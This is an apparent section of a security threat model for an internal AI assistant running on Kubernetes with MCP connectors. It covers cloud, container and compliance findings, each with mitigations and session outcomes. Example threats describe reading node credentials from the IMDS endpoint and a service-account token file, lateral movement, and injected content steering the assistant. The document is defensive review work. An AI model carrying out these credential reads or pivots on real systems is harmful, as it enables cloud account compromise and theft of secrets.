- **Example threat.** An analyst with routine warehouse access joins the assistant telemetry to the HR dimension table already present in the warehouse and produces per-person usage by department, tenure and manager. No control was bypassed; the data was available to their existing role, and nobody decided that it should be.
- **Mitigation.** Restrict the partition to the finance and platform roles that need it, log access to it, and combine with P2's minimisation so that after the billing period there is no user dimension left to restrict.
- **Example mitigation.** A warehouse grant limited to two named roles, row-level policy denying the user dimension to all others, and query logging on the partition reviewed monthly. The minimisation in P2 is the stronger control, because it removes the data rather than guarding it.
- **Session outcome.** `[VS §7 · STILL OPEN]` **Stays open. Nobody in the room could state the warehouse grants** and nobody was asked to guess. What was confirmed is the condition that makes this finding matter: `user_ref` is on every row of the partition (P2). The Data Protection Officer's stated preference is minimisation over access control — "Then I want the minimisation, not the access control" — which is the right ordering, because P2's scheduled job removes the data this finding guards. CL5 remains as the residual for the current billing period and for whatever is retained after it. Owner K. Osei to confirm the grants, three weeks (Appendix I, action 29).
- **Refs.** PAC-02 · PUC-02 · G-14 · TA-19 · PLAT-2822-1 · related P2, P3.

#### CL6 — Node identity reachability from connector pods is unverified — **High** 🔴
`[Cloud]` `[ATT&CK T1528]` `[Cumulus AS-9]` `[K03]`

- **Issue.** No source states whether the assistant's pods use IRSA with per-pod roles or fall back to the node instance role, nor whether IMDSv2 is enforced and the hop limit set so that a pod cannot reach instance metadata. The platform controls page states that "Workload identities are provisioned per service with least privilege", which is a statement about provisioning rather than about the node's own role. This matters more here than in most workloads because one of the pods runs third-party code that processes hostile input by design (C6). Tagged "if present": the node group launch template and the service account annotations would settle it.
- **Example threat.** The compromised community connector requests `http://169.254.169.254/latest/meta-data/iam/security-credentials/` and receives the node instance role's credentials. That role is typically shared by every pod on the node and generally carries more than any single workload needs — ECR pull, CloudWatch write, and whatever accumulated. The attacker has moved from a container to the cloud account, which is the pivot that turns an application compromise into an infrastructure one.
- **Mitigation.** IRSA with a distinct role per workload, `automountServiceAccountToken: false`, IMDSv2 enforced with `httpPutResponseHopLimit: 1` so containers cannot reach metadata, and a node role reduced to the minimum the kubelet requires. Verify rather than assume: the platform's statement covers provisioning, not the node.
- **Example mitigation.** Launch template metadata options `{"HttpTokens":"required","HttpPutResponseHopLimit":1,"HttpEndpoint":"enabled"}`, per-connector IRSA roles, and a Kyverno policy rejecting any pod in the assistant namespace without a service account annotation binding it to a role.
- **Session outcome.** `[VS §8 · STILL OPEN]` **Stays open, and stays open deliberately.** Offered the same platform-baseline closure that C5 received, the Security Champion declined it: "No, that one I'd leave open. IMDS is a node configuration and I genuinely don't know what the launch template says for that node group." Recorded because it is the reason C5's closure is credible — the same person, in the same section, closed one and refused the other on the evidence available for each. Owner K. Osei to confirm IRSA versus node role and the IMDSv2 hop limit, three weeks (Appendix I, action 29). The "if present" tag stands.
- **Refs.** SAC-05 · SUC-07 · G-07 · TA-11 · related I4, C5, C6, AI10.

**Cumulus elicitation coverage.** All 60 cards, walked against the AWS account, the EKS cluster, Secrets Manager, the analytics warehouse and the assistant's delivery path.

| Prompt | Elements walked | Outcome |
|---|---|---|
| CU·AS2 | Slack app scope grant, unreviewed since 2026-05-19 | E2 |
| CU·AS3 | app registration client secret and model provider API key | CL1 |
| CU·AS4 | web console shared password | S1 |
| CU·AS5 | developer access to technical credentials | no exposure — secrets are held in Secrets Manager with workload-identity-scoped access per the platform controls page |
| CU·AS6 | propagation of a permission change to the shared registration | CL1 |
| CU·AS7 | traceability of self-granted IAM permissions | no exposure — workload identity requests are reviewed by Platform Security and recorded in the platform audit trail |
| CU·AS8 | permissions held by the shared app registration | E1 |
| CU·AS9 | node instance role reachable from connector pods | CL6 |
| CU·AS10 | MFA on the path to the web console | S1 |
| CU·ASJ | secrets present in deployment artefacts | no exposure — secrets are mounted at pod start from Secrets Manager and secret scanning with push protection covers the repositories |
| CU·ASQ | IAM surface for assistant-svc and assistant-connectors | no exposure — the workload IAM surface is two services, provisioned per service by Platform Security |
| CU·ASK | credential management solution in use | no exposure — AWS Secrets Manager is the established solution named in the platform controls page |
| CU·ASA | secrets committed to the assistant repositories | no exposure — organisation-wide secret scanning with push protection is enabled |
| CU·DL2 | bill of materials for assistant images and MCP servers | C3 |
| CU·DL3 | build-time dependencies bundled into runtime images | not in scope — no Dockerfiles or build manifests were supplied |
| CU·DL4 | source registry for application dependencies | not in scope — no dependency manifests or lock files were supplied |
| CU·DL5 | behaviour change introduced by a new MCP server version | AI9 |
| CU·DL6 | redeployment triggered by an upstream MCP server release | AI9 |
| CU·DL7 | dependency vulnerability scanning for the assistant repositories | no exposure — dependency scanning is enabled through the shared CI template and Critical findings block the build |
| CU·DL8 | base image currency for assistant-svc | no exposure — base images are scanned on push and rebuilt weekly per the platform controls page |
| CU·DL9 | trustworthiness of the community web-search MCP server | AI10 |
| CU·DL10 | network controls on CI pipeline runs | not in scope — no pipeline definitions were supplied |
| CU·DLJ | detection of code injected into the assistant repositories | no exposure — branch protection, required review, signed commits and secret scanning are in place |
| CU·DLQ | certainty about which artefact is deployed | C3 |
| CU·DLK | visibility of a deployment started from a developer account | not in scope — no pipeline definitions were supplied |
| CU·DLA | visibility of a change to the deploy pipeline | not in scope — no pipeline definitions were supplied |
| CU·RC3 | restore verification for conversation state and configuration | RR1 |
| CU·RC4 | infrastructure-as-code state for the assistant deployment | CL3 |
| CU·RC5 | backup of the telemetry warehouse partition | CL3 |
| CU·RC6 | backup of the assistant's Secrets Manager entries | CL3 |
| CU·RC7 | infrastructure rollback for the EKS deployment | RR1 |
| CU·RC8 | application rollback for assistant-svc | RR1 |
| CU·RC9 | whole-environment restoration | RR1 |
| CU·RC10 | user-initiated conversation deletion | R5 |
| CU·RCJ | redundancy of backups for the assistant's stores | CL3 |
| CU·RCQ | integrity verification of any backup taken | CL3 |
| CU·RCK | principal able to delete both a store and its backup | R5 |
| CU·RCA | disaster recovery plan for a single-region deployment | CL3 |
| CU·MO4 | alert volume from assistant monitoring | no exposure — no alerting on the assistant exists yet to be desensitised by; the absence is CL2 |
| CU·MO5 | access to the sensitive partition of logs and telemetry | CL5 |
| CU·MO6 | identifying a single action across service logs | R4 |
| CU·MO7 | alerting on anomalous model spend | CL2 |
| CU·MO8 | integrity of the assistant's own action record | R5 |
| CU·MO9 | audit of production access by an authenticated operator | no exposure — Platform Security holds read access to platform and SaaS audit logs for investigation |
| CU·MO10 | monitoring blind spots on assistant tool dispatch | R1 |
| CU·MOJ | interpretability of an alert on the assistant | CL2 |
| CU·MOK | log access during a production outage | no exposure — platform logs are centralised outside the workload namespace with 90-day hot retention |
| CU·MOQ | incident response plan for assistant incidents | O5 |
| CU·MOA | secrets and personal data written to logs | T2 |
| CU·RS4 | cloud provider emergency contact records | no exposure — account contact management sits with the platform team, outside this workload's design |
| CU·RS5 | compliance check of this workload against internal policy | O4 |
| CU·RS6 | rate limits on the Slack and console turn entry points | D4 |
| CU·RS7 | CPU and memory limits on orchestrator and connector pods | C4 |
| CU·RS8 | capabilities available to deployed assistant workloads | C2 |
| CU·RS9 | blast radius of one compromised connector process | C1 |
| CU·RS10 | ingress reaching assistant-svc and assistant-connectors | no exposure — public ingress reaches the surfaces only; internal services carry no ingress route |
| CU·RSJ | egress from the connector pods to the internet | I3 |
| CU·RSQ | separation between pilot and production environments | CL4 |
| CU·RSK | publicly exposed cloud resources for this workload | no exposure — the only public surface is ingress to the Slack app and web console |
| CU·RSA | published policy this workload can be held to | O4 |

### 5d. Container and Orchestration Threat Surface

**Isolation boundary for untrusted workloads.** One workload processes attacker-influenced input by design: the community web-search MCP connector, which retrieves public web content and passes it towards the model. The boundary containing it today is the application's own sanitiser, which is not a container boundary. Everything else in the namespace — the orchestrator, three vendor connectors, the mounted connector credentials — sits on the same side of it.

**Escape path.** Compromise of the web-search connector process, through a malicious dependency, a malicious version bump or a parser vulnerability in the content it handles, reaches: every other pod in the namespace, because the platform's default-deny NetworkPolicy operates between namespaces (C1); the mounted connector credentials, which are tenant-wide (I4); the Redis conversation store, which requires no stated authentication (T4, I2); and potentially the node instance role via IMDS (CL6). No deterministic control breaks this chain at any point. The first control that would is namespace separation with a default-deny egress policy (C1), and the strongest is a sandboxed runtime for the hostile workload (C6).

#### C1 — Connectors share the orchestrator namespace, so segmentation does not apply — **High** 🔴
`[Container]` `[K07]` `[ATT&CK T1046]` `[CIS-K8s 5.3.2]`

- **Issue.** PLAT-2814-1: "MCP client in the orchestrator. Connector processes in the same namespace." The platform controls page provides "Default-deny network policies apply **between** namespaces. A service can reach only the services it has declared a dependency on." The design places every component on one side of that control, so the estate's segmentation guarantee does not separate the community MCP server from the orchestrator, from the vendor connectors or from the conversation store. Nothing in either document notices the mismatch. Tagged "if present": a Helm chart would show whether an intra-namespace NetworkPolicy exists.
- **Example threat.** The web-search connector is compromised. It scans the pod network, finds the Redis service and the three vendor connector processes, reads the conversation store directly and issues tool calls against the vendor connectors that were never preceded by a user turn. Every one of these is a lateral move the platform's segmentation control was built to prevent, and none of them crosses a namespace boundary, so none of them is prevented.
- **Mitigation.** One namespace per connector, each with a default-deny NetworkPolicy covering egress as well as ingress, and explicit allow rules naming only the orchestrator. Redis reachable from the orchestrator alone. This restores the platform control's guarantee by making the design's boundaries line up with it.
- **Example mitigation.** A `NetworkPolicy` per connector namespace with `policyTypes: [Ingress, Egress]`, an empty `podSelector`, and an ingress rule permitting only `namespaceSelector: {matchLabels: {name: assistant-core}}` with `podSelector: {matchLabels: {app: assistant-svc}}`. Anything else is dropped at the CNI, deterministically.
- **Session outcome.** `[VS §8 · CONFIRMED]` **Confirmed as still true**, from PLAT-2814-1 and from the engineer who built it. The finding's own phrasing was adopted by the Security Champion as the summary of it — "So the segmentation control is real and everything the assistant runs is on one side of it." Severity unchanged. C1, C6, I4 and AI10 go to Platform Security as **one piece of work**, owner K. Osei, three weeks (Appendix I, action 20), which is the sequencing this finding and AC-02 both asked for.
- **Refs.** SAC-05 · SUC-07 · G-07 · TA-10, TA-11 · PLAT-2814-1 · related S5, I2, I4, C6, T4.

#### C2 — No admission control enforces pod security, limits or image provenance — **High** 🔴
`[Container]` `[K04]` `[K01]` `[PSS Restricted]` `[CIS-K8s 5.2.1]`

- **Issue.** No source describes an admission controller, a Pod Security Admission label on the assistant's namespace, or any policy gate on what may be deployed. Without one, the properties that would otherwise be settled — not privileged, no host namespaces, no host path mounts, capabilities dropped, `allowPrivilegeEscalation: false`, seccomp `RuntimeDefault`, read-only root filesystem, resource limits present, image referenced by digest — are matters of whatever the manifests happen to say, and no manifests were supplied. An unlabelled namespace is treated as Privileged. Tagged "if present": the namespace labels and cluster admission configuration would settle this in one command.
- **Example threat.** A connector deployment is updated, in a hurry, with a host path mount added to debug a file-permission problem, and merged because the reviewer is reviewing application logic. Nothing rejects it. The community web-search connector — the workload that processes hostile input — now has a path to the host filesystem, and the escape path above shortens from a chain to a step.
- **Mitigation.** Label the assistant's namespaces `Restricted` under Pod Security Admission and add an admission controller enforcing the rest: digest-pinned images, verified signatures, resource limits present, `automountServiceAccountToken: false`. This is the single control that converts most of the findings in this subsection from policy into enforcement.
- **Example mitigation.** Namespace labels `pod-security.kubernetes.io/enforce: restricted` and `pod-security.kubernetes.io/enforce-version: latest`, plus a Kyverno `ClusterPolicy` in `enforce` mode requiring a digest reference and a cosign signature, and rejecting any pod without `resources.limits`.
- **Session outcome.** `[VS §8, §10 · STILL OPEN]` **Stays open, and is now explicitly the enforcement item this cluster hangs on.** When C5 closed on the platform baseline, the distinction that justified it was that C5 is a property nobody had stated and C2 is enforcement — "C2 has the admission control work in it and that's where I'd rather the effort went" (M. Oyelaran), accepted. The Pod Security Admission labels on the assistant's namespaces were put to the room and **nobody could answer**: "I'd have to go and look at all four" (K. Osei). Nobody was asked to guess. Owner K. Osei to confirm the PSA labels alongside CL4, CL5 and CL6, three weeks (Appendix I, action 29). The "if present" tag stands.
- **Refs.** SAC-05 · SUC-07 · G-07 · TA-10 · related C1, C3, C4, C5, C6.

#### C3 — Container images are not digest-pinned or signature-verified at admission — **High** 🟡
`[Container]` `[K02]` `[D08]` `[ATT&CK T1195]` `[SLSA]`

- **Issue.** The platform controls page provides real image hygiene — "Base images scanned on push, rebuilt weekly" — which is credited as a partial mitigation. What it does not provide is provenance at deployment: no source states that images are referenced by digest rather than by tag, that signatures are produced or verified at admission, or that an SBOM exists per image. Tags are mutable, so a scan at push and a pull at deploy can be different content. The community web-search MCP server is the image where this matters most, because it is the one whose upstream the organisation does not control. Tagged "if present": the deployment manifests and any registry policy would settle it.
- **Example threat.** The community MCP server's upstream tag is re-pushed with different content after a maintainer compromise. The weekly rebuild pulls it. Scanning finds nothing because the payload is not a known vulnerability, it is new code. The compromised image is admitted because nothing verifies that what is being deployed is what was reviewed, and it lands in the namespace holding every connector credential (I4).
- **Mitigation.** Reference every image by digest, sign images at build, verify signatures at admission, and generate an SBOM per image stored with the artefact. Combine with C2's admission controller so verification is enforced rather than intended.
- **Example mitigation.** `image: registry.internal/websearch-mcp@sha256:9f3c…` in every manifest, `cosign sign` in the build and a Kyverno `verifyImages` rule with the organisation's public key, so an unsigned or mutated image is rejected before scheduling.
- **Session outcome — the provenance half is now observed.** `[VS §8 · CONFIRMED]` The "if present" qualification is removed from this finding's provenance half: images are referenced by **tag, not digest**, across all four MCP servers, confirmed by the engineer who configured them. The image-hygiene half — base images scanned on push and rebuilt weekly — remains a real partial mitigation and the 🟡 status is unchanged. What the session settled is that the weekly rebuild pulling a mutable tag is not a bounded operation, which is this finding's example threat with the uncertainty taken out of it.
- **Refs.** SAC-05, SAC-06 · SUC-11 · G-11 · TA-16 · PLAT-2814-5 · related AI10, C2, AI9, AI12.
- **Why it's still High:** scanning detects known vulnerabilities in a known artefact; it does not establish that the artefact deployed is the artefact reviewed, which is the property a supply-chain compromise defeats.

#### C4 — No resource limits are stated on orchestrator or connector workloads — **Medium** 🔴
`[Container]` `[D07]` `[ATT&CK T1499]` `[CIS-K8s 5.7.3]`

- **Issue.** No source states CPU, memory or PID limits on any assistant workload. Combined with an unbounded tool-call loop (D3) and untrimmed context growth (P5), a single turn can consume resources without ceiling on a shared node. Node autoscaling is not a mitigation; it converts a denial of service into a cost event. Tagged "if present": the Helm values would show whether `resources.limits` is set.
- **Example threat.** An injected loop drives the orchestrator to assemble ever-larger contexts. Memory grows, the pod is evicted or the node is starved, and every other workload scheduled on that node — including the connectors serving Support's time-critical use case — degrades with it. The autoscaler adds a node, the loop continues, and the incident is expensive rather than contained.
- **Mitigation.** Set requests and limits on every assistant workload, and enforce their presence at admission (C2). Add a PID limit so a runaway process cannot exhaust the node's process table.
- **Example mitigation.** `resources: {requests: {cpu: 250m, memory: 512Mi}, limits: {cpu: 2, memory: 2Gi}}` on each workload, with a `LimitRange` in the namespace providing a default and the Kyverno rule from C2 rejecting any pod without limits.
- **Refs.** SAC-09 · SUC-10, SUC-07 · G-10, G-07 · TA-15 · related D3, D4, C2.

#### C5 — Cluster RBAC and service-account token mounting for the assistant are unstated — **Medium** ⚪ `[VS §8 · CLOSED / ACCEPTED]`
`[Container]` `[K03]` `[ATT&CK T1552.007]` `[CIS-K8s 5.1.5]`

- **Issue.** No source states which service accounts the assistant's pods use, what RBAC verbs those accounts hold, whether `automountServiceAccountToken` is disabled, or whether pods can reach the API server at all. The default is that a token is mounted into every pod. In a namespace containing third-party code that processes hostile input, a mounted token is an asset an attacker gets for free. Tagged "if present": the service account definitions and role bindings would settle this.
- **Example threat.** The compromised web-search connector reads `/var/run/secrets/kubernetes.io/serviceaccount/token` and calls the API server. Even with modest permissions it enumerates services, config maps and secrets in the namespace — which include the connector credentials. If the account holds `create pods`, `exec` or cluster-wide `get secrets`, the compromise reaches the cluster rather than the namespace.
- **Mitigation.** Set `automountServiceAccountToken: false` on every assistant pod that does not call the API server, which is all of them. Give each workload its own service account with no cluster role binding. Verify that none holds `create pods`, `exec`, `impersonate`, `escalate`, `bind` or cluster-wide `get secrets`.
- **Example mitigation.** `automountServiceAccountToken: false` in each pod spec and on each service account, no `RoleBinding` for the assistant's accounts beyond what a workload demonstrably needs, and an `rbac-tool` or `kubectl-who-can` report on the assistant namespace reviewed at each release.
- **Session outcome — closed as covered by the platform baseline, and accepted as a risk with an owner.** `[VS §8 · CLOSED]` **Status changed from 🔴 Open to ⚪ Accepted. Severity Medium unchanged; it is not reduced, it is owned elsewhere.** K. Osei, attending as Security Champion for Platform, took the answer: "Workload identity is provisioned per service by Platform Security, it's reviewed, and it's on the standing page. C5 is covered by the baseline." M. Oyelaran added that no connector calls the Kubernetes API, so a mounted token would be inert. The distinction that made the closure defensible is that **C2 is enforcement and C5 is a property nobody had stated** — C2 stays open as the enforcement item and carries the admission-control work.
- **Accepted risk, recorded in full.** `[VS §8 · ACCEPTED]` **AR-01.** *Risk:* cluster RBAC verbs and `automountServiceAccountToken` for the assistant's pods are accepted as covered by the platform workload-identity baseline rather than verified against the manifests. *Owner:* **K. Osei**, on behalf of Platform Security. *Basis:* the manifests come off the platform template and the template is the control. *Dissent recorded:* **P. Raghunathan** — "I'd want to look at the manifests before anyone writes that down… I still haven't read them recently." *Counter-argument accepted:* M. Oyelaran — "I don't think it's proportionate to hold a Medium open on the possibility that the platform template does something we don't expect." *Conditions:* the closure rests on an assertion, not on an artefact, and **the owner of the standing controls page was not in the room** — K. Osei attended in that seat as Security Champion and does not own the page. *Review trigger:* the closure is reopened if a manifest pass, whenever the repository is supplied, shows a template deviation, or if the assistant ever acquires a component that calls the Kubernetes API. **TA-11 and TA-10 still test the property**, so the acceptance does not remove the verification, only the finding's open status.
- **Refs.** SAC-05 · SUC-07 · G-07 · TA-10, TA-11 · related C1, C2, C6, CL6, I4.

#### C6 — Web-search connector processes hostile input with no isolation boundary — **High** 🔴
`[Container]` `[K01]` `[ATT&CK T1611]` `[ATLAS AML.T0105 — Realized]` `[PSS Restricted]`

- **Issue.** The web-search connector retrieves public web content — attacker-controlled by definition — parses it, and passes it towards the model. It is community-maintained code (AI10) running on the shared container runtime, in the namespace holding every connector credential (C1, I4), with no stated seccomp profile, no read-only root filesystem, no capability drop and no sandboxed runtime. The design's answer to hostile input at this point is "the sanitiser", which is an application-layer content transform. An application's own input validation is not a container boundary.
- **Example threat.** A crafted page triggers a memory-safety or deserialisation bug in the connector's HTML or JSON parsing, giving code execution inside the container. From there the attacker reads the mounted connector credentials (I4), reaches Redis (T4), reaches the other connectors (C1), and attempts the node role via IMDS (CL6). Every one of those steps is available because the only boundary between a hostile web page and the organisation's tenant-wide credentials is a parser in a shared-kernel container.
- **Mitigation.** Name the boundary and build it. Run the web-search connector on a sandboxed runtime — gVisor, Kata or Firecracker — or on a tainted dedicated node pool, in its own namespace, with a read-only root filesystem, all capabilities dropped, seccomp `RuntimeDefault`, no mounted secrets, no service account token, and egress restricted to the search API alone.
- **Example mitigation.** A `RuntimeClass` of `gvisor` on the connector's deployment, `securityContext: {runAsNonRoot: true, readOnlyRootFilesystem: true, allowPrivilegeEscalation: false, capabilities: {drop: [ALL]}, seccompProfile: {type: RuntimeDefault}}`, and a node pool tainted so nothing else schedules alongside it.
- **Session outcome.** `[VS §8 · CONFIRMED]` **Confirmed and sharpened.** The community connector processes attacker-authored content by design, is community code, and sits in the namespace holding every connector credential — none of which was disputed. Two additions. The connector is **unpinned and floats on `latest`** (AI10, now an observation rather than an assertion), so the supply-chain leg of this finding's example threat is confirmed. And the sandboxed runtime named first in the mitigation is not available: "We don't run gVisor anywhere" (K. Osei) `[VS §8 · NEW]`, so **the tainted dedicated node pool is the realistic form of this control** rather than the fallback. Taken to Platform Security with C1, I4 and AI10 as one piece of work, owner K. Osei, three weeks (Appendix I, action 20).
- **Refs.** SAC-05 · SUC-07 · G-07 · TA-10, TA-11 · PLAT-2814-5 · related AI10, C1, C2, I4, CL6.

**CN elicitation coverage.** All 25 prompts, by layer — Image, Registry, Runtime, Orchestrator. Layers whose artefacts were not supplied are recorded as not in scope with the reason, rather than assumed.

| Prompt | Elements walked | Outcome |
|---|---|---|
| CN·IM1 | base image references for assistant-svc and the web-search connector | C3 |
| CN·IM2 | layer inspection of the assistant images | not in scope — no Dockerfiles or images were supplied |
| CN·IM3 | user directive and final stage of the assistant images | not in scope — no Dockerfiles were supplied |
| CN·IM4 | SBOM and scan gate on image promotion | C3 |
| CN·IM5 | untrusted code executed during the image build | not in scope — no pipeline or build definitions were supplied |
| CN·IM6 | builder host and build cache provenance | not in scope — no build configuration was supplied |
| CN·RG1 | tag mutability for the assistant and MCP server images | C3 |
| CN·RG2 | breadth of registry push credentials | not in scope — no registry configuration was supplied |
| CN·RG3 | signature verification at admission | C3 |
| CN·RG4 | allowlisting of public images pulled into the cluster | C3 |
| CN·RG5 | authentication required for registry pull | not in scope — no registry configuration was supplied |
| CN·RT1 | privileged flag and host namespaces on assistant workloads | C2 |
| CN·RT2 | host path mounts on assistant workloads | C2 |
| CN·RT3 | capabilities and privilege escalation on assistant workloads | C2 |
| CN·RT4 | seccomp profile and read-only root filesystem | C2 |
| CN·RT5 | CPU, memory and PID limits on assistant workloads | C4 |
| CN·RT6 | web-search connector processing attacker-authored content | C6 |
| CN·OR1 | API server reachability from connector pods | C5 |
| CN·OR2 | human and CI authentication to the cluster | not in scope — no cluster authentication configuration was supplied |
| CN·OR3 | RBAC verbs held by the assistant service accounts | C5 |
| CN·OR4 | automount of the default service-account token into assistant pods | C5 |
| CN·OR5 | NetworkPolicy inside the assistant namespace | C1 |
| CN·OR6 | admission controller enforcing workload policy | C2 |
| CN·OR7 | secret sourcing and etcd encryption for the assistant | I4 |
| CN·OR8 | Kubernetes API audit logging for the assistant namespace | not in scope — no cluster audit configuration was supplied; the application-level recording gap is R1 |

---

## 6. Recovery & Resilience, Dependencies, Human-Centered Security

### 6.1 Recovery and Resilience

#### RR1 — No tested rollback exists for model configuration or connector scope — **Medium** 🔴
`[Recovery & Resilience]` `[Cumulus RC-3]` `[Cumulus RC-8]` `[SOC 2 A1]`

- **Issue.** No source describes a rollback path or a restore drill for the three things most likely to need one: the per-workspace model configuration (PLAT-2822-2), the connector scopes (PLAT-2814-3, PLAT-2814-6), and the deployed application version. Each of these is a change that can degrade behaviour without failing, which is the hardest kind to reverse under pressure, and none has been exercised. Recovery capability that has never been tested is a plan, not a capability.
- **Example threat.** A connector scope is narrowed at 17:00 on a Thursday as part of the PLAT-2814-6 work. It removes a scope the Support workflow depends on but nobody documented. Support's use of the assistant fails silently — the tool call errors and the model answers anyway from partial context (D5). Reverting requires an IT request to Slack app administration, which is the friction PLAT-2814-3's comment cites as the reason the full scope set was taken in the first place. The system is degraded for a day and the fix that caused it is reverted rather than corrected, which is how "narrow before GA" stops happening.
- **Mitigation.** Make each of the three reversible and exercise the reversal. Version connector scopes and model configuration as code with a recorded previous value, and drill the rollback of each once before the next expansion, recording the time it took.
- **Example mitigation.** Hold connector scopes and workspace model configuration in a versioned configuration repository under the same protected-branch review as code, so that reverting is `git revert` plus a deploy, and record the drill result — time to revert, who did it, what broke — against RR1 rather than in a chat thread.
- **Refs.** SAC-09 · SUC-12 · G-12 · TA-17 · PLAT-2814-6, PLAT-2822-2 · related AI11, O5, CL3.

### 6.2 Third-Party Dependencies

No dependency manifests, lock files or SBOMs were supplied, so this is an evaluation of the dependencies the design *names*, not of the tree. That limitation is itself finding C3 and Cumulus cards DL3, DL4, DL10, DLK and DLA are recorded as not in scope for the same reason.

| Dependency | Version | Open CVEs | Licence | Maintenance | Dependency-specific attack vectors | Verdict |
|---|---|---|---|---|---|---|
| O365 MCP server | Unstated | Not assessable without a version | Unstated | Vendor, per D-02 | Tool description injection and rug pull (AI9); tenant-wide reach through the shared registration (E1) | Adopt with conditions — pin by digest, hash descriptions, review on update |
| Slack MCP server | Unstated | Not assessable without a version | Unstated | Vendor, per D-02 | As above, plus the full scope set granted for the prototype (E2) | Adopt with conditions — narrow scopes first, PLAT-2814-6 |
| GitHub MCP server | Unstated | Not assessable without a version | Unstated | Vendor, per D-02 | As above, plus org-wide commit rights reaching CI (T3, E3) | Adopt with conditions — scope the installation, confirm on write |
| **Web-search MCP server** | **Unstated** | **Not assessable — project not named** | **Unstated — must be verified before GA** | **Community; maintainer and bus factor unknown** | Supply-chain compromise reaching every connector credential (AI10, I4); hostile input with no isolation boundary (C6) | **Do not adopt in current placement** — isolate per C6 and AI10, or replace with a vendor-supported or self-built connector |
| Hosted model provider | Unstated tier, per-workspace configurable | Not applicable | Enterprise agreement, D-01 | Vendor | Sub-processor scope unverified (P4); model version floats under a configurable tier (T1, AI12) | Adopt with conditions — confirm the DPA scope, pin versions |
| Redis | Unstated | Not assessable without a version | BSD-3-Clause for the open-source distribution; the managed service's terms differ | Managed, if ElastiCache | Unauthenticated write reaching conversation context (T4); unpartitioned keyspace (I2) | Adopt with conditions — authentication, TLS, per-user key namespacing |

The licence column is the one hard requirement and it cannot be closed from the supplied material: no licence is stated for any MCP server. The community web-search server is the one where a copy-left licence would be both most likely and most consequential, and it must be verified before GA.

### 6.3 Human-Centered Security

Two observations before the coverage table, because they shape how the fixes should be framed. First, the team listened to its users about confirmation friction and acted on what it heard — the instinct is right and the resulting control is wrong, which is a much better problem than not having asked (AI4). Second, the console's shared password is the classic case of the insecure path being the easy one: SSO requires an Identity Platform dependency, and a shared password requires nobody (S1). Both fixes must keep the secure path the easy one, or they will be worked around in the same way.

**Privacy dark patterns and human-centered security coverage.** All 8 dark-pattern prompts and all 8 human-centered security prompts, walked against the two surfaces, the enrolment path and the telemetry defaults.

| Prompt | Elements walked | Outcome |
|---|---|---|
| PRV·DP1 | consent interface in the web console and Slack app | no exposure — there is no consent interface to weight unequally; the absence of any notice is P6 |
| PRV·DP2 | pilot enrolment and telemetry collection defaults | P6 |
| PRV·DP3 | withdrawal and deletion routes for employees and customers | P3 |
| PRV·DP4 | staged disclosure of processing practices | no exposure — no staged disclosure exists because no disclosure exists at any stage; recorded as P6 |
| PRV·DP5 | wording of decline options in either surface | no exposure — no decline option is presented anywhere, so no shaming language exists |
| PRV·DP6 | advertising, tracking and personalisation features | no exposure — the assistant carries no advertising, tracking or personalisation product |
| PRV·DP7 | account or registration requirements for core function | no exposure — the assistant is optional and the systems of record remain directly usable without it |
| PRV·DP8 | consent modals and preference interfaces | no exposure — neither surface presents a consent modal or a preference centre |
| PRV·H1 | web console default authentication posture | S1 |
| PRV·H2 | confirmation step removed from write actions | AI4 |
| PRV·H3 | friction placement across read and write actions | AI4 |
| PRV·H4 | error text surfaced to the user by assistant-svc | no exposure — the surfaces render model prose rather than system error text, and production builds suppress diagnostic detail |
| PRV·H5 | information the user has when judging what the assistant did | R3 |
| PRV·H6 | account recovery for the assistant | no exposure — the assistant has no recovery path of its own; access follows the corporate identity provider and the VPN |
| PRV·H7 | out-of-band notification of security-relevant account events | no exposure — the assistant grants no per-account permission of its own to notify about; connector consent is the shared registration, E1 |
| PRV·H8 | user view of what the assistant has been granted on their behalf | E1 |

Two dark-pattern outcomes deserve a note rather than a shrug. PRV·DP1, DP4, DP5 and DP8 record "no exposure" because there is no consent interface at all — which is not a clean bill of health, it is P6 restated. A system with no consent interface cannot have a manipulative one, and that is the least interesting way to pass this check.

---

## 7. Compliance Summary

| Framework | Applicability | Position | Key open items | Status |
|---|---|---|---|---|
| **GDPR / UK GDPR** | **Applies.** Personal data of employees (telemetry, mail, calendar) and of external correspondents including customers (Support shared mailbox). EU-hosted model endpoint implies EU establishment or EU data subjects | Multiple unmet obligations: no lawful basis identified for third-party correspondence, no DPIA for high-risk processing, no Article 13/14 information to any audience, no working subject rights, unverified Article 28 processor position, special-category inference with no Article 9 condition | P1, P2, P3, P4, P6, P7, R1, I2, T2 | 🔴 Open |
| **NIS2** `[VS §7 · CORRECTED]` | **Determined, by a route this pack could not see.** v1.0 recorded NIS2 as "applicability undetermined — no supplied source states the organisation's sector", and treated the missing determination as the finding. **The sector question resolves to no: the organisation is not an essential or important entity.** The obligations apply anyway. **Two customers are essential or important entities and their contracts pass the Article 21 measures down**, so the measures land contractually even though the directive does not. That route appears nowhere in the supplied material because it lives in two contracts nobody supplied, and it was established by the Data Protection Officer in the validation session | **The four measures v1.0 listed as weak if in scope are now weak in scope**, by contract: MFA is not enforced on the console (S1, O2), supply-chain security for the MCP surface is absent (AI9, AI10, C3), incident handling does not exist (O5), and the early-warning clock could not be started from an unrecorded event (R1). The two customers concerned are also the two whose correspondence is most heavily in the assistant's scope (**P8**). The applicable contractual measures must be enumerated from the two contracts — that work has not been done | O2, O5, R1, AI10, S1, **P8** · the sector determination is **closed**; the contractual enumeration is **open** | 🔴 Open |
| **EU Cyber Resilience Act** | **Does not apply.** CRA covers products with digital elements placed on the EU market. The assistant is an internal hosted service with no downloadable client, no embedded software and no placement on the market. It is not sold, distributed or made available to third parties | Re-assess if PROD-1131's Phase 3 customer-facing surfaces proceed, or if any component is ever distributed | Phase 3 scoping decision, recorded as open at initiative level | ⚪ Accepted |
| **UK PSTI Act 2022** | **Does not apply.** PSTI covers consumer connectable products — internet-connectable or network-connectable physical devices made available to consumers in the UK | There is no device and no consumer sale. The assistant is a hosted internal service with no client software | None | ⚪ Accepted |
| **PCI-DSS v4.0** | **Does not apply on current evidence, with one caveat.** No cardholder data environment is described and no connector reaches a payment system. The caveat is Support's shared mailbox: customers do occasionally send card details in correspondence despite instructions not to, and the assistant would read them | Confirm as part of P1's DPIA whether the mailbox has ever received cardholder data; if so, the mailbox and everything downstream of it enters scope | P1 | 🔴 Open |
| **HIPAA** | **Does not apply.** No protected health information is described, no US healthcare context is named, and the organisation is not identified as a covered entity or business associate. Note that P7 concerns health *inference* about employees under GDPR Article 9, which is a different obligation entirely | Re-assess only if a healthcare customer's correspondence enters the Support mailbox under a US covered-entity relationship | P7 for the GDPR position | ⚪ Accepted |
